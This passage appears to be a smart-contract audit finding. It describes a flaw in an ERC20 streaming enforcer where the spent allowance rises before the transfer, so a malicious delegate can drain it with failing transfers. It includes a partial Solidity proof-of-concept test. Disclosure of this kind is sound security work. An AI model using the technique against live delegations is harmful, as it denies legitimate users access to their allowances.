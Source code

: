 ```solidity

    // @issue This line increases the spent amount BEFORE the actual native token transfer
    allowance_.spent += value_;

    emit IncreasedSpentMap(/* ... */);
}
```
When used with the `EXECTYPE_TRY` execution mode, if the token transfer fails, the execution will continue without reverting. However, the streaming allowance will still be decreased as if the transfer had succeeded. This creates a scenario where an attacker can repeatedly execute failing transfers to deplete the streaming allowance without actually transferring any tokens.

Note that a similar issue also exists in `ERC20PeriodTransferEnforcer`.

**Impact:** This vulnerability allows a malicious delegate to create a permanent denial-of-service on streaming delegations. This effectively denies legitimate use of the delegation.


**Proof of Concept:** Run the following test

```solidity
    function test_streamingAllowanceDrainWithFailedTransfers() public {
        // Create streaming terms that define:
        // - initialAmount = 10 ether (available immediately at startTime)
        // - maxAmount = 100 ether (total streaming cap)
        // - amountPerSecond = 1 ether (streaming rate)
        // - startTime = current block timestamp (start streaming now)
        uint256 startTime = block.timestamp;
        bytes memory streamingTerms = abi.encodePacked(
            address(mockToken), // token address (20 bytes)
            uint256(INITIAL_AMOUNT), // initial amount (32 bytes)
            uint256(MAX_AMOUNT), // max amount (32 bytes)
            uint256(AMOUNT_PER_SECOND), // amount per second (32 bytes)
            uint256(startTime) // start time (32 bytes)
        );

        Caveat[] memory caveats = new Caveat[](3);

        // Allowed Targets Enforcer - only allow the token
        caveats[0] = Caveat({ enforcer: address(allowedTargetsEnforcer), terms: abi.encodePacked(address(mockToken)), args: hex"" });

        // Allowed Methods Enforcer - only allow transfer
        caveats[1] =
            Caveat({ enforcer: address(allowedMethodsEnforcer), terms: abi.encodePacked(IERC20.transfer.selector), args: hex"" });

        // ERC20 Streaming Enforcer - with the streaming terms
        caveats[2] = Caveat({ enforcer: address(streamingEnforcer), terms: streamingTerms, args: hex"" });

        Delegation memory delegation = Delegation({
            delegate: address(users.bob.deleGator),
            delegator: address(users.alice.deleGator),
            authority: ROOT_AUTHORITY,
            caveats: caveats,
            salt: 0,
            signature: hex""
        });

        // Sign the delegation
        delegation = signDelegation(users.alice, delegation);
        bytes32 delegationHash = EncoderLib._getDelegationHash(delegation);

        // Initial balances
```